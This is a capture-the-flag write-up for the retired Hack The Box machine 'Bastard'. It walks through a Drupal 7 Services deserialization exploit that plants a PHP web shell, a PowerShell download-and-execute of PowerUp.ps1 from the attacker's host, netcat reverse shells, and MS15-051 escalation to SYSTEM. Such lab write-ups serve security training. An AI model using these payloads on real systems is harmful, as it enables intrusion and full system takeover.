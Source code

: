 # Bastard

This is the write-up for the box Bastard that got retired at the 16th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.9    bastard.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bastard.nmap 10.10.10.9
```

```markdown
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

As the web server is IIS version 7.5 the OS of the box is most likely Windows Sever 2008 R2 server.

On the web page there is a _Drupal_ installation.
One of the default files of Drupal is the _/CHANGELOG.txt_ where we can find out which version this is. The version is 7.54 which was released on  February 1st 2017.

Looking for exploits for this:
```markdown
searchsploit drupal 7
```

The exploit to use is called _"Drupal 7.x Module Services - Remote Code Execution"_ which is a **PHP serialization** vulnerability.
We will change some lines in the code to get command execution and file upload and set the variables correctly:
```php
# (...)
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
if (isset($_REQUEST['upload'])) {
        file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.23:8000/" . $_REQUEST['upload']));
};
if (isset($_REQUEST['exec'])) {
        echo "<pre>" . shell_exec($_REQUEST['exec']) . "</pre>";
};
?>
EOD;

$file = [
    'filename' => 'exploit.php',
    'data' => $phpCode
];
# (...)
```

Run the exploit:
```markdown
php5 drupal_exploit.php
```
```markdown
# Output
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//exploit.php
```

Now when browsing to this page we can test if we have command execution:
```markdown
http://10.10.10.9/exploit.php?exec=whoami
```

It outputs that we are _NT Authority\iusr_.

Now we either have command execution with this method or use the token in the file _session.json_ and replace the cookies with these values and get logged in as Admin:

![Admin page](https://kyuu-ji.github.io/htb-write-up/bastard/bastard_adminpage.png)

### Command Execution on HTTP

We should run any enumeration script on this box to get an attack surface. I will run _PowerUP.ps1_ from the **Powersploit Framework** first.

Download the file from my local machine and run it:
```markdown
.../exploit.php?exec=echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/PowerUp.ps1') | powershell -noprofile -
```

Unfortunately there is no interesting information in this output so lets run another enumeration script. I will run [Sherlock](https://github.com/rasta-mouse/Sherlock) now to get some suggestions for vulnerabilities to exploit.

We want to upload _Netcat for Windows_ on this box and execute it to get a reverse shell:
```markdown
/exploit.php?upload=nc64.exe&exec=nc64.exe -e cmd 10.10.14.23 9001
```

After running this our listener on port 9001 starts a reverse shell.

## Privilege Escalation

The enumeration script suggested some exploits to use and I will use **MS15-051 - Win32k LPE vulnerability** also known as _CVE-2015-1701_.
To use this exploit we copy the [Proof-of-Concept script from GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to our local machine and upload and execute it on the box.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe whoami
```

This outputs that we are _NT Authority\SYSTEM_ and thus the exploit works and it is possible to start a shell with this.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.23 9002"
```

After running this our listener on port 9002 starts a reverse shell with the user _NT Authority\SYSTEM_ and the box is done!

